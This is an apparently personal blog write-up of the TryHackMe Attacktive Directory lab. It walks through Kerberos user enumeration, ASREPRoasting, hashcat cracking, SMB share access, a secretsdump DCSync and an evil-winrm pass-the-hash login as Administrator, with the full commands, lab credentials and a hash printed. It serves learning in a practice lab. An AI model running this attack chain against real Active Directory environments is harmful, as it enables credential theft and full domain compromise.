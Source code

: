 ```yaml
---
layout: post
title: "Active Directory"
date: 2023-05-20 
categories: ["Hands-on", "TryHackMe"]
tags: "TryHackMe" "Active Directory"
---
```


# [Active Directory](https://tryhackme.com/room/attacktivedirectory)
> Attackers think in Graphs
Tool used: **nmap**, **enum4linux**, **Impacket**, **evil-winrm**

**Scenario:**
*99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?*

By now, I have focused my skills and energy on exploiting Linux machines. However, I want to switch gears and focus on Windows' Active Directory instead. This shift will help me broaden my horizons and learn not only how to exploit different operating systems but also the various services and systems within that operating system.


## Setup
I followed the setup section to install Impact, bloodhound, and Neo4j, after doing so i ran the command to update and upgrade for any issues. Downloading BloudHound and Neo4j did take a long time so I started reading on each tool. 

```bash
sudo apt update && apt upgrade 
```

### Impacket
[Impacket](https://www.secureauth.com/labs/open-source-tools/impacket/) is a collection of python classes for working with network protocols like IP, TCP and such. It has many features including remote execution, Kerberos, Windows Secrets, Server tools, and etc. 

### Bloodhound
[BloodHound](https://github.com/BloodHoundAD/BloodHound) uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Bloudhound can be used to identify highly complex attack paths, identify and eliminate the paths, gain deeper understanding of privilege relationships 

### Neo4j
Neo4j is a grapgh database managment system. It is designed to store, manage, and process large amounts of structured and connected data in the form of a graph. Unlike traditional relational databases, which store data in tables with rows and columns, Neo4j organizes data in nodes, relationships, and properties.

### evil-winrm
[WinRM] (https://www.kali.org/tools/evil-winrm/)(Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.

This program can be used on any Microsoft Windows Servers with this feature enabled (usually at port 5985), of course only if you have credentials and permissions to use it. So it could be used in a post-exploitation hacking/pentesting phase. The purpose of this program is to provide nice and easy-to-use features for hacking. It can be used with legitimate purposes by system administrators as well but the most of its features are focused on hacking/pentesting stuff.

## Enumeration 
I started the enmueration phase with the basics scanning for open ports using nmap. The result were a lot, but I can see that port 139/445 are open and the question asks about the tool to use to enumerate that port which ofcourse is enum4linux.

## Ports scanning  
```bash
nmap -sV 10.10.159.47

53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-20 09:16:12Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### SMB Enumeration 
We can use **enum4linux** to enumerate port 139/445 SMB. The command takes two arguments, the -U to get the serlist and the -o To gather OS information of the target. The NetBIOS-Domain name can be found in the result of the enumeration 

```bash
enum4linux -U -o 10.10.159.47
```
> Commonly used invalid Top-level Domain for AD Domain is .local

### [Kerberos](https://github.com/ropnop/kerbrute/releases) Enumeration 
Kerberos is a key authentication service within AD, for the tool that will be used its **Kerbute** to brute force discover of users, passwords and passwords spray (add later what password spray is)

After setting up Kerbrute to work enumerate the usernames and files i used the previous question hind for the top level domain to write the command below and provided the username list. The command userenum used to enumerate valid usernames 

```bash
./kerbrute userenum --dc 10.10.159.47 -d spookysec.local user.txt
```

After running the enumeration I noticed 3 users that stood out and svc-admin was the answer to the notable account discovered, and the other one was backup.


## Exploiting 

### Abusing Kerberos
ASREPRoasting attach occurs when a user account has the privilege "Does not require Pre-Authentication" set. Meaning that no valid identification is needed befoee requesting a Kerberos Ticket on the specified user account. **Impacket** will be used to make this attack happen, it has a tool called **GetNPUsers.py**that sllows us to query ASREPRoastable accounts from Key Distrubtion center. I ran the command below with the kerbuser.txt that contains the backup and the svc-admin to see if one of them or both of them are ASREPRoastable accounts. SVC-Admin came back with a long hash I copied the first part of the hash and found it in the hashcat examples as '18200 - Kerberos 5, etype 23, AS-REP' 

```bash
python /opt/impacket/examples/GetNPUsers.py -no-pass -usersfile kerbuser.txt -dc-ip 10.10.159.47 spookysec.local/
```

Cracking the hash using hashcat mode 18200 to find that the password is management2005

```bash
hashcat -m18200 kerbhash /usr/share/wordlists/rockyou.txt 
```

## Back to Enumeration
> Enumerating any shares that the domain controller may be giving out. 
**smbclient** is used to make remote SMB shares, the option *-L* lists the shares the command below was used to list the share using the password that was found. 

```bash
smbclient -L 10.10.159.47 -U svc-admin
Enter WORKGROUP\svc-admin's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
    
    SMB1 disabled -- no workgroup available
```

For this part i have to use the guide to learn how to use smbclient and what to do. After listing the shares I need to access the backup's content to view the text file. I used the below command to get the file and when it read the content it was encoded so i used cyberchef to decode the base64 to 'backup@spookysec.local:backup2517860' 

```bash
smbclient \\\\10.10.159.47\\backup -U svc-admin
```

## Privilege Escalation 
Now that we have backup credentials that has unique permission that allows all AD changes to be synced with this user we can use the impacket tool **secretsdump.py** to retrieve all password hashes that the backup user account has. I ran the below comman to start the attack and retrieve all the user accounts hashes using the backup username and password found in the previous step.

```bash
python secretsdump.py -just-dc backup@10.10.159.47
```

After recieving all the hashes for the adminstrator, svc-admin and backup I used the evilwinrm with -H option to pass the user's hash to log in as the Administrator then i checked each user desktop to finally get the flags.

```bash
./evil-winrm -i 10.10.159.47 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc 
```